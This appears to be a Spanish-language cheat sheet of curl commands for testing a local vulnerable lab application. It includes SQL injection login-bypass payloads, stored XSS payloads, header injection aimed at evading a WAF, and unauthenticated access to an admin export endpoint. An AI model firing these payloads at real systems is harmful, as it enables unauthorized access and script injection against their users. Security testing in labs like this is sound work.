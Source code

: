 ## 🟦 1. **Login (fuerza bruta / SQLi)**

### 🔸 Login normal

```bash
curl -X POST http://localhost:8001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin", "password":"pass"}'
```

### 🔸 SQL Injection en `username`

```bash
curl -X POST http://localhost:8001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin\" OR \"1\"=\"1", "password":"pass"}'
```

### 🔸 SQL Injection `' OR 1=1 --`

```bash
curl -X POST http://localhost:8001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"\' OR 1=1 --", "password":"any"}'
```

---

## 🟨 2. **XSS (almacenado/persistente)**

### 🔸 Inyección de `<script>` en comentario

```bash
curl -X POST http://localhost:8001/comment \
  -H "Content-Type: application/json" \
  -d '{"comment":"<script>alert(\"xss\")</script>"}'
```

### 🔸 XSS con `onerror`

```bash
curl -X POST http://localhost:8001/comment \
  -H "Content-Type: application/json" \
  -d '{"comment":"<img src=x onerror=alert(1)>"}'
```

### 🔸 XSS con `javascript:` URI

```bash
curl -X POST http://localhost:8001/comment \
  -H "Content-Type: application/json" \
  -d '{"comment":"<a href=\"javascript:alert(1)\">click</a>"}'
```

---

## 🟥 3. **Bypass WAF (cabeceras maliciosas)**

### 🔸 Inyección en User-Agent

```bash
curl -X POST http://localhost:8001/login \
  -H "User-Agent: <script>alert('x')</script>" \
  -H "Content-Type: application/json" \
  -d '{"username":"test", "password":"test"}'
```

### 🔸 Inyección en Referer

```bash
curl -X POST http://localhost:8001/login \
  -H "Referer: javascript:alert('xss')" \
  -H "Content-Type: application/json" \
  -d '{"username":"test", "password":"test"}'
```

---

## 🟩 4. **Acceso sin autorización al endpoint sensible**

### 🔸 Exportar sin control de rol

```bash
curl -X GET http://localhost:8001/admin/export
```

---

## 🟧 5. **Escaneo SAST**

### 🔸 Verificar resultados simulados del SAST

```bash
curl http://localhost:8002/scan
```

---

## 🟫 6. **Verificación de estado CSP y WAF**

### 🔸 Estado del WAF

```bash
curl http://localhost:8001/
```

### 🔸 Estado del CSP

```bash
curl -i http://localhost:8003/
```

> Tip: usa `-i` para ver las cabeceras, incluyendo `Content-Security-Policy`.

---

## 🟪 7. **Lectura de comentarios (XSS persistente activo)**

### 🔸 Recuperar comentarios registrados

```bash
curl http://localhost:8001/comments
```

---

## 🟨 BONUS: Inyección en query string (para probar WAF)

```bash
curl "http://localhost:8001/login?user=<script>alert(1)</script>"
```
